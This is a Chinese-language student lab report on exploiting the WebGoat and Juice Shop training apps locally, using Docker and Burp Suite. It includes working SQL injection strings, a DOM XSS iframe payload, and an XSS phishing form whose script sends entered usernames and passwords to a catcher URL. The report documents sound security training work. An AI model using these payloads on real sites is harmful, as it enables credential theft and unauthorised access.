

第七章 Web 应用漏洞攻防

## 实验内容

- [x]  WebGoat实验环境搭建
- [x] Juice Shop实验环境搭建
- [x] 完成WebGoat不少于 5 种不同漏洞类型的漏洞利用练习
- [x] 完成Juice Shop实验环境下不少于 5 种不同漏洞类型的漏洞利用练习


## 实验环境

- WebGoat
- Juice Shop
- 虚拟机：Kali_963


## 实验步骤

### WebGoat环境搭建

```bash
########## 所使用的命令 ##########
php -v # 查看php的版本信息
mkdir php # 建一个子目录
php -S 127.0.0.1:8080 # 使用内置web服务器运行<addr>:<port>
 

# Docker是一个开源的应用容器引擎，从github下载老师提供的 docker-compose 环境搭建代码，
git clone https://github.com/c4pr1c3/ctf-games.git
apt update && apt install docker-compose # 下载docker-compose
docker-compose up -d  # 在后台启动服务；进入ctf-games/owasp/webgost文件夹，搭建环境
docker-compose ps     # 查看启动的服务；为health则表示开启
docker-compose stop   # 停止服务
# 启动 juice-shop 及 shake-logger 服务
cd ../../owasp/juice-shop/ && docker-compose up -d


vi docker-compose.yml # docker-compose.yml文件配置；ports：定义映射端口
# 删除 docker-compose.yml 文件中映射端口ports中的本地地址<addr>
# 修改docker-compose.yml；因为原开发者更新了版本所以暂时指定版本实验
webgoat8: 
   image: webgoat/webgoat-8.0:v8.0.0.M25         # image: webgoat/webgoat-8.0


# 使用Docker搭建WebGoat环境 
docker pull webgoat/webgoat-8.0                   # 下载容器
docker pull webgoat/webgoat-7.1
docker images                                     # 查看下载
docker run -p 8088:8080 -t webgoat/webgoat-8.0    # 运行
docker run -p 8070:8080 -t webgoat/webgoat-7.1

# 访问入口注意大小写
127.0.0.1:8088/WebGoat/login或attack # WebGoat 8.0版本,可自己注册用户
127.0.0.1:8087/WebGoat/login或attack # WebGoat 7.1版本,训练数量是最多的（优先推荐）
```

**WebGoat登录界面** 


**登录完成后页面** 


### Burp Suite简单使用

Firefox设置代理：


BurpSuite设置代理


把默认的【intercept is on】 取消，默认情况下BurpSuite会拦截所有的请求


尝试登录WebGoat，查看拦截


打开【intercept is on】登录WebGoat，查看拦截

对拦截到的包含用户登录信息的数据包进行修改，使得用户登录失败


为了方便实验，我们设置只拦截post包


### WebGoat 训练平台

#### 未验证的用户输入：Bypass HTML Field Restrictions（绕过前端限制）

##### step1：目标

- 用户应该对HTML有基本的了解

- 用户应该能够在发送之前篡改请求(使用代理或其他工具)

- 用户可以篡改字段限制并绕过客户端验证

##### step2：查看前端限制，修改maxlength，使用BurpSuite完成成功提交

- 在大多数浏览器中，客户端完全或几乎完全控制网页的HTML部分。它们可以更改值或限制以满足自己的偏好。

- F12打开开发者工具，查看所提交的Form的设置，发现在输入限制长度不超过5，手动修改

  

- 在Burp Suite内随意修改提交的表单的内容如下

  

- 提交成功截图

  

##### step3：Validation（验证）

- 通常，有某种机制可以防止用户向服务器发送更改后的字段值，比如发送前进行验证。大多数流行的浏览器，比如Chrome，都不允许在运行时编辑脚本。我们将不得不以其他方式规避验证。

- 随意输入任意字符前端会出现验证错误

  

- 我们将Form中的  `onsubmit="return validate()" ` 删除，再次提交没有再在前端出现错误提醒,没有校验了。

  

- 提交成功截图

  


#### Authentication Flaws : Forgot Password

- Web应用程序经常为用户提供密码找回功能。但不幸的是，很多Web应用程序的实施机制并不正确。验证用户身份所需要的信息往往过于简单。

- 输入正确的用户名**webgoat**和提示信息**red**，会出现用户信息（包含密码）

  

- 以**admin**为用户，尝试通过提示信息破解用户密码。尝试4次后成功破解密码为green。可以看出这个密码找回机制极度不安全。

  

  

#### Buffer Overflows：Off-by-One Overflows

##### step1:完成基本信息填写，并使用burp suite拦截


##### step2：使用intruder 进行溢出攻击





#### SQL注入

- 在网页中输入密码登录

  

- 使用Burp Suite拦截请求，修改password=' or'1'='1，然后提交请求

  

- 实现绕过密码登录

  


#### XSS:Phishing with XSS

- XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨大的，是web安全的头号大敌。

- 向表单提交下列代码，实现反射型xss钓鱼

```html
#!html
</form>
  <script>
    function hack(){ 
    XSSImage=new Image;
    XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";
    alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);
} 
  </script>
<form name="phish">
<br>
<br>
<HR>
  <H2>This feature requires account login:</H2>
<br>
  <br>Enter Username:<br>
  <input type="text" name="user">
  <br>Enter Password:<br>
  <input type="password" name = "pass">
<br>
  <input type="submit" name="login" value="login" onclick="hack()">
</form>
<br>
<br>
<HR>
```

- 提交前界面

  

-  < form> 表单提交后，在页面会产生用户名和密码的登录界面，提交输入的数据到hack（）函数

  

- < script> 显示一个窗口，将你输入的用户名和密码显示出来，表示你攻击成功

  


### Juice shop环境搭建

```ruby
########## 所使用的命令 ##########
docker-compose up -d  # 在后台启动服务；进入ctf-games/owasp/juice-shop文件夹，搭建环境
docker-compose ps     # 查看
http://127.0.0.1:3000/#/score-board   # 隐藏计分板

```


### Juice shop 训练平台

#### Login Admin （SQL 注入）

Login Admin (Log in with the administrator's user account.) 使用管理员用户账号登陆

- 这里登录使用的SQL语句与WebGoat不同

  

- 输入 'or 1=1-- ,拦截看到提交数据 ` {"email":"or 1=1--","password":"123456789"} `

  

- 结合sql语句 `SELECT * FROM Users WHERE email = '1'' AND password = '202cb962ac59075b964b07152d234b70`

- payload为 `email":"' or 1=1 --","password":"123456789"`即可使用管理员登陆。原因是管理员的数据在select结果处于第一位。

  


#### Zero Stars（绕过前端限制）

- 在Contact Us这个界面可以看到打星功能。这里在没有填内容和打星前是不能点击submit按钮的。不过这里只是前端校验，可以通过把它的disabled属性直接删除，来进行绕过。

  

  

  

#### DOM XSS

- 在搜索栏中输入`<iframe src="javascript:alert(`xss`)">`，出现弹窗

  

  


#### **Basket Access** (脆弱的访问控制)

- 要求我们往其他人的购物车里加入商品，用burpsuite拦截，点添加购物车后，抓包发现链接上有个/rest/basket/1，修改此处的1为其他数字（1为之前登录的管理员），即可把商品加到他人购物车。 

  

  


#### Confidential Document

- 在About Us这个界面，有一个markdown文件的下载链接

  链接格式是:localhost:3000/ftp/legal.md?md_debug=true

  

- 这里有个敏感的ftp目录，尝试访问的，发现敏感数据，点击第一个文件即可完成任务

  

  


## 实验结论

- **SQL注入漏洞**

  SQL注入漏洞是由于Web应用程序没有对用户输入数据的合法性进行判断，攻击者通过Web页面的输入区域(如URL、表单等) ，用精心构造的SQL语句插入特殊字符和指令，通过和数据库交互获得私密信息或者篡改数据库信息。SQL注入攻击在Web攻击中非常流行，攻击者可以利用SQL注入漏洞获得管理员权限，在网页上加挂木马和各种恶意程序，盗取企业和用户敏感信息。

- **文件上传漏洞 **

  文件上传漏洞通常由于网页代码中的文件上传路径变量过滤不严造成的，如果文件上传功能实现代码没有严格限制用户上传的文件后缀以及文件类型，攻击者可通过 Web 访问的目录上传任意文件，包括网站后门文件（webshell），进而远程控制网站服务器。 因此，在开发网站及应用程序过程中，需严格限制和校验上传的文件，禁止上传恶意代码的文件。同时限制相关目录的执行权限，防范webshell攻击。

- **Buffer Overflows **
  大多数的缓冲溢出攻击都是通过改变程序运行的流程到入侵者植入的恶意代码，其主要目的是为了取得超级用户的shell。原理是相当简单的：将恶意指令存放在buffer中，这段指令可以得到进程的控制权，从而达到攻击的目的。

- #### xss

  XSS是注入攻击的一种，攻击者通过将代码注入被攻击者的网站中，用户一旦访问访问网页便会执行被注入的恶意脚本。XSS攻击主要分为反射性XSS攻击（Reflected XSS attack）和存储型XSS攻击（Stored XSS Attack）两类。

  反射性XSS有称为非持久型XSS（Non-Persistent XSS）。当某个站点存在XSS漏洞时，这种攻击会通过URL注入攻击脚本，只有当用户访问这个URL是才会执行攻击脚本。

  存储型XSS也被称为持久型XSS（persistent XSS），这种类型的XSS攻击更常见，危害也更大。它和反射型XSS类似，不过会把攻击代码存储到数据库中，任何用户访问包含攻击代码的页面都会被殃及

- 通过这次实验我们可以知道，网络环境存在多种漏洞形式，也有不少利用漏洞进行攻击的方法，主要还是要客户端对输入数据进行校验，用户保护好个人隐私等...


## 遇见的问题

### 问题一   docker后台服务没有开启

解决：systemctl start docker

```bash
root@kali963:~/php/ctf-games/owasp/webgoat# docker-compose ps
ERROR: Couldn't connect to Docker daemon at http+docker://localhost - is it running?

If it's at a non-standard location, specify the URL with the DOCKER_HOST environment variable.
root@kali963:~/php/ctf-games/owasp/webgoat# systemctl start docker
root@kali963:~/php/ctf-games/owasp/webgoat# docker-compose ps
   Name               Command             State              Ports          
----------------------------------------------------------------------------
webgoat7      java                       Exit 255   127.0.0.1:8087->8080/tcp
              -Djava.security.egd=f                                         
              ...                                                           
webgoat8      java                       Exit 255   127.0.0.1:8080->8080/tcp
              -Djava.security.egd=f                                         
              ...                                                           
webgoat8-db   docker-entrypoint.sh       Exit 255   5432/tcp                
              postgres                                                      
webwolf       /home/webwolf/start-       Exit 255   127.0.0.1:9090->9090/tcp
              webwol ...               
```


## 参考资料

 [docker-compose.yml的使用](https://www.cnblogs.com/ray-mmss/p/10868754.html) 

[WebGoat](https://github.com/WebGoat/WebGoat ) 

[juice-shop官方教程](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/) 